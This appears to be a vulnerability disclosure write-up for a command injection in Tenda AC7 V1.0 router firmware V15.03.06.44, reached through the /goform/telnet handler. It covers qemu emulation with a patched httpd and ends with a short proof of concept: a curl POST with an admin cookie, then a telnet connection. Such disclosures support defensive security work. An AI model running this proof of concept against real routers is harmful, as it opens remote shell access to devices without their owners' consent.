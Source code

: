 Overview
--
Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### Environmental simulation

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7__V15.03.06.44_httpd_ok file in this project) (modify the assembly to force skip the environment check step):

qemu command：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
-----

V15.03.06.44

Vulnerability Details
----

**An issue was found in the Tenda AC7 V1.0\_V15.03.06.44 device: the tendatelnet function processes the request in http, does not properly process the parameter lan\_ip, and is directly connected to the doSystem system-level function. This may lead to a command injection vulnerability and may also cause shell metacharacters to be activated. For example, an attacker may use telnet to remotely access the attacked device.**

![image](https://github.com/user-attachments/assets/560f7ed3-c51b-4052-8b54-d9d149461896)


Cross-references reveal that the parent function that calls this function is telnet, and the first-level directory name is goform.


![image](https://github.com/user-attachments/assets/bafe875a-a234-4c27-900f-dc2832326e77)


Proof of Concept
----

```text-x-haskell
curl -i -X POST http://192.168.142.100/goform/telnet -d Raining=Raining --cookie "user=admin" --http0.9
telnet 192.168.142.100 80
```
![image](https://github.com/user-attachments/assets/91ef600d-65a3-4d16-9cd5-965644cdfc3b)
